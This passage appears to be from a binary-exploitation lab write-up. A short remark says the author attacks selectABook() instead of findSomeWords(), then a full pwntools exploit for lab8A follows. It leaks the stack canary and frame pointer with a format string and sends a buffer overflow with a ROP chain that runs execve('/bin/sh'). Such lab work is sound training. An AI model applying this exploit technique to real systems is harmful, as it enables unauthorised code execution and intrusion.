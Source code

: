 ```python
```
<span style="color:blue">**_BUT! This code only works with local binary._**</span>  
I don't why, but it seems something is wrong with read().  
Hence we exploit `selectABook()` instead of `findSomeWords()`.  

**_exploit.py_**
```python
#!/usr/bin/env python2

from pwn import *

#
# setup context
#
#context.log_level = 'debug'

#
# start process
#
#r = process('/levels/lab08/lab8A')
r = remote('127.0.0.1', 8841)

#
# Stage 1, info leak
#
print "Stage 1"


r.recvuntil('Name: ')
r.sendline("%130$08x#%131$08x#")
tmp = r.recvline()

canary = int(tmp.split('#')[0], 16)
ebp_main = int(tmp.split('#')[1], 16)

print "canary      =  %#08x" % canary
print "ebp of main =  %#08x" % ebp_main

#
# Stage 2, ROP
#

print "Stage 2"

POP_EDX_ECX_EBX = p32(0x0806f250) # pop edx ; pop ecx ; pop ebx ; ret
XOR_EAX         = p32(0x08054ab0) # xor eax, eax ; ret
INC_EAX         = p32(0x0807bc96) # inc eax ; ret
INT_80          = p32(0x0806f8f8) # nop ; int 0x80

# execve(char *filename, char **argv, char **envp)
payload = ''
payload += POP_EDX_ECX_EBX     # ebp_main - 564
payload += p32(0x0)            # ebp_main - 560 envp
payload += p32(0x0)            # ebp_main - 556 argv
payload += p32(ebp_main - 496) # ebp_main - 552 filename
payload += XOR_EAX             # clear eax ebp_main - 548
payload += INC_EAX * 11        # set eax = 0xb
payload += INT_80              # ebp_main - 500
payload += "/bin"              # ebp_main - 496
payload += "/sh\x00"           # ebp_main - 492


r.sendline("A\x00" + "A"*510 + p32(canary) + p32(ebp_main) + payload)
r.interactive()
```
